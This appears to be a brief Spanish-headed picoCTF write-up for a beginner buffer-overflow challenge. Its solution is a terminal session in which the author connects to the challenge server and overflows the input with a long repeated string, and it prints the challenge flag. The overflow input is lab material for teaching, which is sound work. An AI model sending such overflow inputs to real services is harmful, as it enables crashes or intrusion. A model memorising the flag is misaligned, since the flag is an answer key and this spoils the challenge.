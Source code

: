 ## Objetivo
Smash the stack Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/520/vuln). You can view source [here](https://artifacts.picoctf.net/c/520/vuln.c). And connect with it using: `nc saturn.picoctf.net 53935`
## Solucion
```bash

┌──(kali㉿kali)-[~/Downloads]
└─$ nc saturn.picoctf.net 53935
Input: nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935nc saturn.picoctf.net 53935
picoCTF{ov3rfl0ws_ar3nt_that_bad_a065d5d9}
                                                                                                                    
┌──(kali㉿kali)-[~/Downloads]
└─$ 


```

## Notas adicionales

## Referencias